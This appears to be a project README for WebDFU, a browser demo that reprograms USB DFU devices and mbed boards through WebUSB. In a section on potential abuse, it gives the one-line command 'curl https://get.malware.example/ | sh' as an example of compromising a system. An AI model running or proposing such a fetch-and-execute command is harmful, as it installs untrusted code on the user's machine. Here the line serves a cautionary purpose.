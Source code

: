 ```yaml
---
title: WebDFU
subtitle: Device firmware updates in the browser using WebUSB
excerpt: >
  A demo investigating the potential non-malicious uses for allowing websites to
  reprogram USB-attached devices without installing any native plugins.
---
```

## Overview
WebDFU is a proof-of-concept using [WebUSB](https://wicg.github.io/webusb/) to reprogram [USB DFU](http://wiki.openmoko.org/wiki/USB_DFU_-_The_USB_Device_Firmware_Upgrade_standard) class devices from the browser. It supports USB DFU 1.1 and [DfuSe 1.1a](http://www.st.com/en/development-tools/stsw-stm32080.html) bootloaders and mbed boards with [custom interface firmware](https://github.com/devanlai/DAPLink).
It does not require the user to install browser plugins or proxy agents that could execute arbitrary code.

Note: WebUSB is currently a draft standard that is only implemented by Google Chrome.

## Potential for abuse
Putting the words "web" and "firmware" in the same sentence is likely to provoke a negative gut reaction from security-minded folks, so before we go any further, let's address this.

Any device with an unsecured bootloader that allows unrestricted access to it can be compromised if a malicious party gets access to it even once.
Depending on the nature of the bootloader and the malware, it may be irreversible and even undetectable.
This risk is not unique to firmware updates delivered from the browser.
Here's a non-comprehensive list of ways you can inadvertently compromise a USB device without involving WebUSB:
  
  * Leaving your device unattended in a public place, where anyone could pick it up, reflash it, and replace it.
  * Downloading and manually installing a malicious firmware update from a compromised website without first verifying the checksum.
  * Running `curl https://get.malware.example/ | sh` and subsequently plugging your device in.

We should strive to phase out devices that are vulnerable to these kinds of attacks, but in the meantime, there are millions of existing devices out in the wild that WebUSB opens up access to use for benevolent purposes.

## Applications

### Standalone firmware updates in the browser
The simplest application for WebUSB and firmware updates is to implement [dfu-util](http://dfu-util.sourceforge.net/) in a cross-platform browser application. dfu-util uses libusb to directly schedule the USB control transfers needed to execute a USB DFU firmware update. Since WebUSB offers a similar degree of low-level transfer-oriented API access, it's a straightforward exercise to port the necessary parts of dfu-util from C to javascript.

This could be used to build a rich firmware updater that can intelligently display release notes and update the device without installing any native software.

A live demo of a dfu-util-like site can be viewed online [here](https://devanlai.github.io/webdfu/dfu-util/).

The demo has been successfully tested on Linux with USB DFU 1.1 and USB DfuSe 1.1a devices. It should work on macOS and Windows as well, but WebUSB support is still evolving, so there may be issues.

### Online IDEs with hardware access
Sites such as [mbed.org](https://developer.mbed.org), [codebender](https://codebender.cc), and [Arduino Create](https://create.arduino.cc/) show that there are real use cases for online IDEs for firmware.

However, there is a critical gap in-between writing code in the browser and flashing that code onto a development board.
In the case of mbed, the user has to manually drag and drop the compiled firmware onto an emulated USB drive that then reprograms the board. For codebender and Arduino Create, the user must install special browser plugins or native software to allow the website to access the board.

With WebUSB, it's possible for the IDE to directly talk to the development board, creating a first class, seamless experience comparable to a native IDE, while retaining the benefits of automatic updates, cloud storage, and social code sharing.

Alas, as the mbed IDE is still closed source, we'll have to settle for something with a few more seams than we'd like.

One of the defining characteristics of mbed development boards is that they have an additional interface microcontroller that handles reprogramming the actual target chip from USB. It would be great if we could use WebUSB to talk to that interface microcontroller and tell it to reprogram the target.

Unfortunately, the programming is handled by repurposing USB mass storage and USB HID, both of which already have standard operating system drivers that WebUSB won't try to mess with. 

Fortunately for us, the firmware for most of those interface chips _is_ open-source as part of the [DAPLink](https://developer.mbed.org/handbook/DAPLink) project, so we can add a custom USB interface just for WebUSB. In this particular case, it was easiest for me to add [another USB DFU interface](https://github.com/devanlai/DAPLink), so the existing WebUSB DFU work above also works here.

So we've got a website that can talk to USB DFU devices and interface firmware that can reprogram the target chip using USB DFU, what else do we need? I'd love to add a free, cloud-hosted IDE, but I don't have the time or money to build one of those. Luckily, while the mbed IDE isn't open-source, you can leverage their online compiler through their [remote compilation API](https://developer.mbed.org/handbook/Compile-API) to build projects online.

The very rough live demo for all of this can be accessed [here](https://devanlai.github.io/webdfu/mbed-download/).

## Sources on GitHub

* WebUSB demo code: [webdfu](https://github.com/devanlai/webdfu)
* DAPLink with DFU and WebUSB: [daplink](https://github.com/devanlai/DAPLink)

## Future work

While it was expedient to add USB DFU to the DAPLink, there's no reason why we couldn't add another USB interface that provides full access to the debugging capabilities already present in the DAPLink firmware.

I'd like to extend it so that it's possible to set breakpoints and inspect peripheral registers on my development boards, all from an in-browser IDE that requires zero-installation.